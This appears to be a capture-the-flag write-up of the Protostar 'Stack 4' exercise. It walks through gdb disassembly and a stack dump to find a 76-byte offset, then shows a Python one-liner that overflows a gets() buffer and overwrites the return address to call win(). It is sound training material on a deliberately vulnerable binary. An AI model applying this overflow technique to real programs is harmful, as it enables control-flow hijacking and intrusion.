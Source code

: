 # Stack 4
## Overview
    1. We need to redirect the execution flow to execute the uncalled 
       function win().
    2. The esp(current stack pointer) grows upward when allocating memory 
       and the higher the esp goes, it points to smaller address number.
       Thus, we must first overwrite the buffer[64] and then overwrite the
       return address to the address of win function.
    3. The buffer[64] gets its value through standard I/O.
    
## Process
    $ gdb -q ./stack4
    (gdb) disas main
        Dump of assembler code for function main:
            0x08048408 <+0>:     push   %ebp
            0x08048409 <+1>:     mov    %esp,%ebp
            0x0804840b <+3>:     and    $0xfffffff0,%esp
            0x0804840e <+6>:     sub    $0x50,%esp
            0x08048411 <+9>:     lea    0x10(%esp),%eax
            0x08048415 <+13>:    mov    %eax,(%esp)
            0x08048418 <+16>:    call   0x804830c <gets@plt>
            0x0804841d <+21>:    leave
            0x0804841e <+22>:    ret
        End of assembler dump.
    (gdb) disas win
        Dump of assembler code for function win:
            0x080483f4 <+0>:     push   %ebp
            0x080483f5 <+1>:     mov    %esp,%ebp
            0x080483f7 <+3>:     sub    $0x18,%esp
            0x080483fa <+6>:     movl   $0x80484e0,(%esp)
            0x08048401 <+13>:    call   0x804832c <puts@plt>
            0x08048406 <+18>:    leave
            0x08048407 <+19>:    ret
        End of assembler dump.
    (gdb) b *main+21
        Breakpoint 1 at 0x804841d: file stack4/stack4.c, line 16.
    (gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        Breakpoint 1, main (argc=1, argv=0xffffd634) at stack4/stack4.c:16
        16      stack4/stack4.c: No such file or directory.
    (gdb) x/60x $esp
        0xffffd540: 0xffffd550  0x0000002f  0xf7e12dc8  0xf7fd5858
        0xffffd550: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd560: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd570: 0x41414141  0x41414141  0x41414141  0x00414141
        0xffffd580: 0xf7fb83dc  0x080481e8  0x0804843b  0x00000000
        0xffffd590: 0xf7fb8000  0xf7fb8000  0x00000000  0xf7e1e637
        0xffffd5a0: 0x00000001  0xffffd634  0xffffd63c  0x00000000
        0xffffd5b0: 0x00000000  0x00000000  0xf7fb8000  0xf7ffdc04
        0xffffd5c0: 0xf7ffd000  0x00000000  0xf7fb8000  0xf7fb8000
        0xffffd5d0: 0x00000000  0x0e02ad85  0x32620395  0x00000000
        0xffffd5e0: 0x00000000  0x00000000  0x00000001  0x08048340
        0xffffd5f0: 0x00000000  0xf7fedf10  0xf7fe8780  0xf7ffd000
        0xffffd600: 0x00000001  0x08048340  0x00000000  0x08048361
        0xffffd610: 0x08048408  0x00000001  0xffffd634  0x08048430
        0xffffd620: 0x08048420  0xf7fe8780  0xffffd62c  0xf7ffd918
    (gdb) x/x $ebp+4
        0xffffd59c:     0xf7e1e637
        
## Method
    address of win function: 0x080483f4
    buffer[64]: start from first stack of line 0xffffd550.
    return address ($ebp+4): last stack of line 0xffffd590. (0xf7e1e637)
    
    -> We need to use 76 As to overwrite the data from the start of 
    buffer[64] to the start of return address, and then use the little 
    endian of 0x080483f4 (\xf4\x83\x04\x08) to overwrite the value of 
    return address.
    
## Answer
    $ python -c "print 'A'*76+'\xf4\x83\x04\x08'" | ./stack4
    code flow successfully changed
    Segmentation fault (core dumped)
